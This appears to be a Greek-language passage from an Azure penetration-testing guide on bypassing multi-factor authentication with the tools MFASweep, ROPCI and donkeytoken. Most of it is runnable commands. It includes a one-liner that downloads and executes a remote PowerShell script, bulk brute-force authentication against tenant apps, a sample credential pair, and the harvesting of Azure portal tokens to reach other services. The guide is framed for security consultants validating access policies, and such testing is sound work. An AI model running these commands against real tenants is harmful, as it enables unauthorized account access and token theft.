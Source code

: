 Το MFASweep είναι ένα σενάριο PowerShell που προσπαθεί να **συνδεθεί σε διάφορες υπηρεσίες της Microsoft χρησιμοποιώντας ένα παρεχόμενο σύνολο διαπιστευτηρίων και θα προσπαθήσει να προσδιορίσει αν είναι ενεργοποιημένο το MFA**. Ανάλογα με το πώς είναι διαμορφωμένες οι πολιτικές πρόσβασης και άλλες ρυθμίσεις πολλαπλής αυθεντικοποίησης, ορισμένα πρωτόκολλα μπορεί να καταλήξουν να παραμείνουν σε μία μόνο παράγοντα. Έχει επίσης μια επιπλέον έλεγχο για τις ρυθμίσεις ADFS και μπορεί να προσπαθήσει να συνδεθεί στον τοπικό διακομιστή ADFS αν ανιχνευθεί.
```bash
Invoke-Expression (Invoke-WebRequest -Uri "https://raw.githubusercontent.com/dafthack/MFASweep/master/MFASweep.ps1").Content
Invoke-MFASweep -Username <username> -Password <pass>
```
### [ROPCI](https://github.com/wunderwuzzi23/ropci)

Αυτό το εργαλείο έχει βοηθήσει στην αναγνώριση παρακάμψεων MFA και στη συνέχεια στην κακή χρήση APIs σε πολλούς παραγωγικούς AAD ενοικιαστές, όπου οι πελάτες AAD πίστευαν ότι είχαν επιβληθεί MFA, αλλά η αυθεντικοποίηση με βάση το ROPC ήταν επιτυχής.

{% hint style="success" %}
Πρέπει να έχετε άδειες για να καταγράψετε όλες τις εφαρμογές ώστε να μπορέσετε να δημιουργήσετε τη λίστα των εφαρμογών για brute-force.
{% endhint %}
```bash
./ropci configure
./ropci apps list --all --format json -o apps.json
./ropci apps list --all --format json | jq -r '.value[] | [.displayName,.appId] | @csv' > apps.csv
./ropci auth bulk -i apps.csv -o results.json
```
### [donkeytoken](https://github.com/silverhack/donkeytoken)

Το Donkey token είναι ένα σύνολο λειτουργιών που στοχεύουν να βοηθήσουν τους συμβούλους ασφαλείας που χρειάζονται να επικυρώσουν τις Πολιτικές Προσβάσεως με Όρους, δοκιμές για πύλες Microsoft με ενεργοποιημένο 2FA κ.λπ..

<pre class="language-powershell"><code class="lang-powershell"><strong>git clone https://github.com/silverhack/donkeytoken.git
</strong><strong>Import-Module '.\donkeytoken' -Force
</strong></code></pre>

**Δοκιμάστε κάθε πύλη** αν είναι δυνατόν να **συνδεθείτε χωρίς MFA**:
```powershell
$username = "conditional-access-app-user@azure.training.hacktricks.xyz"
$password = ConvertTo-SecureString "Poehurgi78633" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential($username, $password)
Invoke-MFATest -credential $cred -Verbose -Debug -InformationAction Continue
```
Επειδή το **Azure** **portal** **δεν είναι περιορισμένο**, είναι δυνατόν να **συλλεχθεί ένα token από το endpoint του portal για να αποκτηθεί πρόσβαση σε οποιαδήποτε υπηρεσία ανιχνεύθηκε** από την προηγούμενη εκτέλεση. Σε αυτή την περίπτωση, το Sharepoint αναγνωρίστηκε και ζητείται ένα token για την πρόσβαση σε αυτό:

{% code overflow="wrap" %}
```powershell
$token = Get-DelegationTokenFromAzurePortal -credential $cred -token_type microsoft.graph -extension_type Microsoft_Intune
Read-JWTtoken -token $token.access_token
```
{% endcode %}
